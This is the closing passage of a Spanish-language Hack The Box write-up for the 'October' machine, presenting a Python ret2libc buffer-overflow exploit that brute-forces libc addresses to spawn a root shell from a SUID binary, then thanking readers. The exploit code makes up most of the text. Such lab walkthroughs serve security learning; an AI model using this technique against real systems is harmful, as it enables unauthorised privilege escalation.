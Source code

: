 ```bash
#!/usr/bin/env python3

# 1. Calcular offset
# 2. Obtener una base de libc
# 3. Obtener offsets (system, exit, bin_sh)
# 4. Calcular direcciones reales
# EIP = system_address + exit_address + bin_sh_address

import sys
from struct import pack
from subprocess import call

# ldd ovrflw
# for i in $(seq 1 1000); do ldd ovrflw | grep libc | awk 'NF{print $NF}' | grep "0xb7636000" | tr -d '()'; done
base_libc_address = 0xb7636000

# readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -E "\bsystem@@| exit@@"
exit_address_offset = 0x00033260
system_address_offset = 0x00040310

# strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep "/bin/sh"
bin_sh_address_offset = 0x00162bac

# calculamos las direcciones reales
system_address = pack("<L", system_address_offset + base_libc_address)
exit_address = pack("<L", exit_address_offset + base_libc_address)
bin_sh_address = pack("<L", bin_sh_address_offset + base_libc_address)

offset = 112
junk = b"A" * 112

eip = system_address + exit_address + bin_sh_address

payload = junk + eip

while True:
    res = call(["/usr/local/bin/ovrflw", payload])
    if res == 0:
        print("\n[!] Exiting the program...\n")
        sys.exit(0)
```

Ejecutamos el exploit y leemos el flag del usuario `root`.

![October - root](/assets/img/htb/october/october-39.png)

De esta forma, llegamos al final del Write-up de la máquina October.

Espero que los conceptos hayan quedado claros. Si has llegado hasta este punto y aún tienes dudas, te recomiendo volver a realizar la máquina.

Gracias por tu lectura!

Happy Hacking!
